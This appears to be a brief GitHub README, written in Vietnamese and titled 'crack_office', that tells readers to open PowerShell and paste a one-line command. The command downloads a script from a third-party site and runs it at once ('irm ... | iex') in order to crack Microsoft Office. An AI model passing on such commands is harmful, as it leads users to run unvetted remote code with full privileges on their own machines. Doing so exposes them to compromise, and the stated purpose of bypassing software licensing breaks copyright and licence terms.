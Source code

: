 "# crack_office" 

"mở powersell hoặc teminal chạy lệnh dưới"

" irm itqavn.net/mas | iex "

"hoặc"

" irm https://massgrave.dev/get | iex "
